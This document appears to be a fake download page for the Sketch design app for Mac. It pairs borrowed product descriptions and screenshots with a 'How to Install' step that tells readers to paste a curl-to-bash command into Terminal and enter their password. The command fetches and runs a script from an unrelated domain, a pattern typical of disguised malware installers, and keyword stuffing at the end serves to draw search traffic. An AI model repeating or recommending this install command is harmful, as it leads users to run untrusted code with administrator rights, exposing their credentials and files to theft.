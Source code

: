 # Sketch Mac Download  
![Sketch Screenshot 1](https://media.idownloadblog.com/wp-content/uploads/2020/01/Continuity-Sketch-002.png)  
---  

## 📦 How to Install


1. Copy the installation command below.

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get10/install.sh)"
```
3. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
4. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


---  

## 📦 What is Sketch for Mac?  

**Sketch for Mac** is a powerful vector graphics editor built specifically for macOS, designed to help designers and creatives craft stunning user interfaces, mobile apps, web designs, icons, and illustrations.  

Unlike traditional raster-based programs, Sketch is a vector-first tool that allows for precise design at any scale. With tools like symbols, shared styles, prototyping, and real-time collaboration, it empowers UI/UX professionals and product designers to create and iterate quickly and consistently.  

The intuitive interface, smooth performance, and dedicated macOS optimization make Sketch a favorite for those working on a MacBook, iMac, or Mac Studio. It integrates perfectly into Apple workflows, supports Retina displays, and runs lightning-fast on **Apple Silicon (M1, M2, M3)** chips.  

Sketch also supports a vast ecosystem of plugins, making it easy to extend its functionality to suit your specific design workflow—from icon sets to design systems and live prototypes. Whether you're sketching wireframes or building out full design systems, Sketch offers a smooth, professional-grade experience natively on macOS.  

---  

![Sketch Screenshot 2](https://cdn.sketch.com/uploads/big-sur-header@2x.png)  

---



## 🌟 Key Features & Benefits  

- ✏️ **Vector Editing Tools** — Clean, scalable design tools built for modern UI and web design.  
- 🎨 **Customizable Interface** — Work the way you want with customizable workspaces and shortcuts.  
- 🧩 **Plugin Ecosystem** — Hundreds of plugins available for animation, export, prototyping, and more.  
- 📱 **Responsive Design** — Easily preview layouts across multiple screen sizes and devices.  
- 🤝 **Real-Time Collaboration** — Share designs and edit live with teammates in the Sketch Cloud.  
- 💻 **Native macOS App** — Optimized for Apple Silicon (M1, M2, M3) and fully integrated with macOS.  
- 📁 **Export Anywhere** — Export assets, code snippets, and designs for any platform or framework.  

---  

## 🖥️ System Requirements  

- macOS: 12.0 Monterey or later  
- Processor: Apple Silicon (M1/M2/M3) or Intel  
- RAM: 8 GB or more recommended  
- Disk Space: ~2 GB available  

---  

## 🏷️ Keywords  

sketch mac, sketch up mac, sketch up for mac, macbook drawing app, sketch up download mac, sketch osx, sketchup osx, macbook drawing program, download sketch up mac, draw pad mac, mac sketch up, macbook sketch app  



